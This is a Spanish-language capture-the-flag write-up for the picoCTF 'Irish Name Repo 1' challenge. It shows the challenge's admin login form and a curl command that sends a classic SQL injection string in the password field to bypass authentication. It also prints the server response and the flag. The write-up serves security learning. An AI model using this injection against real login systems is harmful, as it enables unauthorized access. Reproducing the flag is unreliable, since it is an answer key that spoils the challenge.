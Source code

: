 #### Descripción

Hay un sitio web que se ejecuta en ([enlace](https://jupiter.challenges.picoctf.org/problem/50009/)) o http://jupiter.challenges.picoctf.org:50009. ¿Crees que puedes iniciar sesión con nosotros? ¡Intenta ver si puedes iniciar sesión!`https://jupiter.challenges.picoctf.org/problem/50009/`

## Solución:

[](https://github.com/Dvd848/CTFs/blob/master/2019_picoCTF/Irish-Name-Repo_1.md#solution)

El sitio web ofrecía una página de inicio de sesión de administrador:

```html
<form action="login.php" method="POST">
    <fieldset>
        <div class="form-group">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" class="form-control">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <div class="controls">
                <input type="password" id="password" name="password" class="form-control">
            </div>
        </div>
        <input type="hidden" name="debug" value="0">

        <div class="form-actions">
            <input type="submit" value="Login" class="btn btn-primary">
        </div>
    </fieldset>
</form>
```

Para eludir la lógica de autenticación, todo lo que necesitábamos hacer era proporcionar una cadena SQLi clásica:

```shell
dayan@Day MINGW64 ~ (master)
$ curl "https://jupiter.challenges.picoctf.org/problem/50009/login.php" --data "username=admin&password='+or+1=1--" && echo
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   100    0    66  100    34     12      6  0:00:05  0:00:05 --:--:--    22<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>

```

**Respuesta en el formato del concurso:** 
`picoCTF{s0m3_SQL_fb3fe2ad}`